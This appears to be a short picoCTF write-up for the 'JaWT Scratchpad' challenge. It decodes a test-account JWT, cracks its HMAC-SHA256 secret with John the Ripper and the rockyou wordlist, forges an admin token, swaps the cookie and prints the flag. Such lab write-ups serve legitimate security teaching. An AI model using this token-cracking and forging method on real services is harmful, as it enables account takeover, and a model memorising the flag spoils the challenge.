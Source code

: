# JaWT Scratchpad


JWT in cookie for test account (in file `token`)

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCJ9.IAu_YSHppFe8hXH_BSPb4OLJYGUi8wXqXdS0T33cKbA
```

decoded header and payload (JWT omits padding with equal sign, expect errors) 
```
{"typ":"JWT","alg":"HS256"}.{"user":"test"}.<signature>
```

use johntheripper to crack last part of JWT (HS256 --> HMAC-SHA256)  
use aquired key to sign admin JWT

``` 
john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt token.data
```
res: `ilovepico`

create admin JWT on jwt.io

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

replace cookie value on challenge site with freshly signed JWT


flag: `picoCTF{jawt_was_just_what_you_thought_f859ab2f}`
